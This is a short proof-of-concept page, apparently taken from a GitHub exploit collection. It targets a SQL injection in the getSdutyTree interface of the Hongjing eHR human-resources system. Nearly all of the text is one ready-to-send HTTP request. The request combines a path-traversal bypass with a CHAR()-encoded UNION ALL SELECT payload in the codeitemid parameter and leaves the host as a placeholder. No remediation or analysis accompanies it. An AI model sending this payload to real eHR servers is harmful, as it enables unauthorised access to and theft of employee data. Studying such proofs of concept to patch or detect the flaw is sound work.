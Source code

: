 # ehr_getSdutyTree_sqli

from: https://github.com/wy876/POC/blob/main/%E5%AE%8F%E6%99%AFeHR%E4%BA%BA%E5%8A%9B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3getSdutyTree%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md


```
GET /w_selfservice/oauthservlet/%2e./.%2e/servlet/sduty/getSdutyTree?param=child&target=1&codesetid=1&codeitemid=1%27+UNION+ALL+SELECT+NULL%2CCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28106%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28119%29%2BCHAR%2885%29%2BCHAR%2873%29%2BCHAR%2887%29%2BCHAR%2899%29%2BCHAR%2875%29%2BCHAR%28116%29%2BCHAR%2872%29%2BCHAR%28113%29%2BCHAR%28104%29%2BCHAR%28107%29%2BCHAR%2889%29%2BCHAR%28115%29%2BCHAR%28108%29%2BCHAR%2873%29%2BCHAR%2884%29%2BCHAR%2869%29%2BCHAR%2873%29%2BCHAR%2875%29%2BCHAR%2883%29%2BCHAR%2898%29%2BCHAR%28116%29%2BCHAR%28120%29%2BCHAR%2889%29%2BCHAR%2884%29%2BCHAR%2882%29%2BCHAR%28120%29%2BCHAR%2884%29%2BCHAR%28116%29%2BCHAR%2888%29%2BCHAR%28112%29%2BCHAR%2887%29%2BCHAR%2873%29%2BCHAR%28109%29%2BCHAR%28104%29%2BCHAR%2887%29%2BCHAR%28102%29%2BCHAR%2897%29%2BCHAR%2877%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL%2CNULL--+Iprd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```
